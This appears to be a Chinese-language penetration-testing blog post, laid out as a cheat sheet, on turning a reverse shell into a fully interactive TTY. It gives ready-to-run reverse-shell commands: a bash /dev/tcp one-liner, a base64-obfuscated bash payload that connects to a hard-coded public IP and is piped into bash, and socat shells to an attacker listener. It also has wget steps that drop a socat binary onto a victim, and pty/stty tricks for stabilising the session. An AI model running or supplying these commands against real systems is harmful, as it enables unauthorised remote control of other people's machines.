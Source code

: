 +++
title = '为 Reverse Shell 添加 TTY'
date = 2024-04-21T18:11:44+08:00
draft = false
categories = ['小技巧']
tags = ['Pentest', 'TTY', 'Reverse Shell']
+++

## Reverse Shell Cheat Sheet

<https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>

```bash
/bin/bash -c 'bash -i >& /dev/tcp/{ip}/{port} 0>&1'

echo L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzUyLjEzOS4xNTYuMzMvNDQ0NCAwPiYxJw== | base64 -d | bash
```

## Upgrading Simple Shells to Fully Interactive TTYs

<https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/>

## 交互式 shell

### 设置环境变量

```bash
export TERM=xterm-256color
```

### python pty

`dpkg -l | grep python`
`which python`
`whereis python`
查看是否有 python 环境

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

可以实现简单的 tty，但是这种方式有个问题，当我们 Ctrl+C 的时候，所有连接都会断掉，又需要重新来一遍，而且 vim 虽然可以用，也有点问题，同时没有记录，无法使用上方向键执行上条命令。

### Upgrading from netcat with magic

> 注意：这种方式只适用于 bash，不适用于 zsh

首先，使用Python生成一个PTY。一旦bash在PTY中运行，用 `Ctrl-Z` 将shell放到后台。

![20240405230443](https://cfproxy.iselt.top/https://raw.githubusercontent.com/iselt/ImageBed/main/20240405230443.png)

当 shell 处于后台时，现在检查当前终端和 STTY 信息，以便我们可以强制连接的 shell 与其匹配

![20240405230459](https://cfproxy.iselt.top/https://raw.githubusercontent.com/iselt/ImageBed/main/20240405230459.png)

所需信息是 TERM 类型（“xterm-256color”）和当前 TTY 的大小（“rows 38; columns 116”）

在仍然处于后台的情况下，现在将当前的STTY设置为原始类型，并使用以下命令告诉它回显输入字符:

```bash
stty raw -echo
```

使用原始的stty，输入/输出会看起来很奇怪，你看不到下一个命令，但当你输入时，它们会被处理。

使用 fg 将 shell 置于前台。它将重新打开反向 shell，但格式将会出错。最后，使用 reset 重新初始化终端。

![20240405230515](https://cfproxy.iselt.top/https://raw.githubusercontent.com/iselt/ImageBed/main/20240405230515.png)

注意：我没有再次输入 nc 命令（因为它可能看起来像上面）。我实际输入了 fg ，但没有回显。 nc 命令是当前正在前台运行的作业。然后在netcat shell中输入了 reset 命令

在 reset 之后，shell 应该再次看起来正常。最后一步是设置 shell、终端类型和 stty 大小，以匹配我们当前的 Kali 窗口（根据上面收集的信息）。

```bash
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```

最终结果是通过netcat连接实现的具有所有我们期望的功能的完全交互式TTY（包括制表补全、历史记录、作业控制等）。

### socat (only linux)

socat 是类 Unix 系统下的一个工具，可以看作是 nc 的加强版。我们可以使用 socat 来传递完整的带有 tty 的 TCP 连接。缺点也很明显，只能在 linux 下面运行

下载地址：<https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat>

使用起来也很简单。

攻击机：

```bash
# 首先安装
sudo apt install socat
# 执行
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

目标机：

```bash
# 把 socat 上传到目标机器上或者直接下载
# 64 位
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat
#32 位
wget https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx86.bin -O /tmp/socat

#从攻击机下载
攻击机指令：python3 -m http.server 8888

# 运行
chmod +x /tmp/socat
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:IP:4444
```

这种方式基本和 ssh 类似，ctrl+C 也不会直接断开。

### 速查表

#### 使用Python进行伪终端

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

#### 使用 socat

```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

#### 使用stty选项

```bash
# In reverse shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
echo $TERM
stty -a
stty raw -echo
fg

# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```
